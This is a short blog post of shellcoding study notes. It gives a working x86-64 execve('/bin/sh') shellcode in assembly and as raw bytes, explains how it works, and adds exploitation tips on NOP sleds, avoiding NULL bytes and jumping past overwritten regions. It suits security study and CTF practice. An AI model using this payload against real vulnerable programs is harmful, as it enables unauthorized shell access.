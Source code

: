 ```yaml
---
layout: post
title: "Shellcoding Notes"
---
```


Shellcode is useless with NX mitigation, but still good to know.

## execve shellcode

```
xor esi, esi
movabs rbx, 0x68732f2f6e69622f
push rsi
push rbx
push rsp
pop rdi
push 0x3b
pop rax
xor edx, edx
syscall

---

raw bytes: "\x31\xF6\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x56\x53\x54\x5F\x6A\x3B\x58\x31\xD2\x0F\x05"
```

```0x3b``` is the syscall number for ```execve```. Second argument is zeroed out (```rsi```), and "/bin/sh\0" string is pushed onto the stack. Then, the address of the top of the stack is popped into ```rdi``` as the first argument.

## NOP-sled

Sometimes you have to write the no-op instruction (```0x90```) in the buffer before your shellcode is executed.

## NULL byte
If the buffer is copied with functions like ```strcpy```, they will stop on the ```NULL``` byte. To get rid of it, try using 4 byte (or 2/1 byte) instructions, or ```push/pop``` instructions for storing values.

## Overwrite mangling
If the program writes over the shellcode, use a ```jmp $+n``` to jump over the overwrite section.
